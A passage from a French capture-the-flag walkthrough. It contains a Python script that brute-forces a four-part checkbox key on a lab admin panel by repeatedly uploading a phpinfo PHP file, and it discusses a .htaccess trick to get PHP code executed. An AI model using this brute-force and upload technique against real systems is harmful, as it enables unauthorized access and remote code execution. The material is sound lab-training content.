 ```python
    "http://signal8.darknet.com/xpanel/",                                                                                                                                                                                                     
    data=login_data,                                                                                                                                                                                                                          
    headers={"Content-Type": "application/x-www-form-urlencoded"}                                                                                                                                                                             
    )                                                                                                                                                                                                                                         

if "Editor PHP" not in r.text:                                                                                                                                                                                                                
    print "Auth failed!"                                                                                                                                                                                                                      
    exit()                                                                                                                                                                                                                                    

for l in combinations(numbers, 4):                                                                                                                                                                                                            
    upload_data = [("Action", "Upload")]
    for k in l:
        upload_data.append(("checkbox[]", k))

    r = sess.post(
        "http://signal8.darknet.com/xpanel/ploy.php",
        data=upload_data,
        files={'imag':('phpinfo.php','<?php phpinfo(); ?>')}
        )
    if "Key incorrecta!" not in r.text:
        print "Found key", l
        print r.text
        break
```

Au bout d'un moment ça mort à l'hameçon :  

```plain
Found key ('37', '10', '59', '17')
Formato invalido!
```

On a le bon code mais l'upload de fichier php est refusé... On pourrait uploader un *.htaccess* pour rajouter une extension .yo qui serait interprétée comme PHP (voir [le writeup pour le Xerxes](http://devloop.users.sourceforge.net/index.php?article72/solution-du-ctf-xerxes)) sauf qu'à l'instar du [CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub) tout upload semble supprimer l'upload précédent... donc si on envoie le .yo, bye bye le .htaccess et pas d'interprétation du code.  

